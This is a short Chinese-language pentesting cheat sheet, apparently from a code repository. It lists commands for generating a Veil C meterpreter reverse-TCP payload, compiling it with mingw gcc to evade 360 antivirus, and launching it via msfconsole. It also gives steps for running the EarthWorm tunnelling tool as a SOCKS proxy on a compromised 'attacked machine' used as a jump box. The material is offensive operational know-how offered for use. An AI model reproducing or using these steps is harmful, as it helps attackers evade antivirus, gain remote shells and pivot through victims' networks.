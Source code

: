 ### veil

这里，安装问题有点多，我用 kali-2018-32 安装成功，先安装下列依赖，后按照官方即可。

>   apt-get install libncurses5*
>
>   apt-get install libavutil55*
>
>   apt-get install gcc-mingw-w64*
>
>   apt-get install wine32

生成shell

>   ./Veil.py
>
>   use 1
>
>   use c/meterpreter/rev_tcp

在 win 用 mingw 下 gcc 编译 bypass 360

>   gcc -o v.exe v.c -lws2_32

使用之前生成的 veil.rc

>   msfconsole -r veil.rc

一句话开启 http 服务，虚拟机里开启，在外访问虚拟机 ip 即可下载虚拟机文件：

>   ```
>   python -m SimpleHTTPServer 80
>   ```

### ew

tools:

>   http://rootkiter.com/EarthWorm

新版 tools：

>   http://rootkiter.com/Termite/

****正向：****

**被攻击机(跳板)：**

temp 目录下:

>   unzip ew.zip
>
>   file /sbin/init (查看 linux 位数)
>
>   chmod 755 ew_for_Linux
>
>   ./ew_for_Linux -s ssocksd -l 9999 (侦听 0.0.0.0:9999)
>
>   netstat -pantu|grep 9999 (查看是否侦听成功)
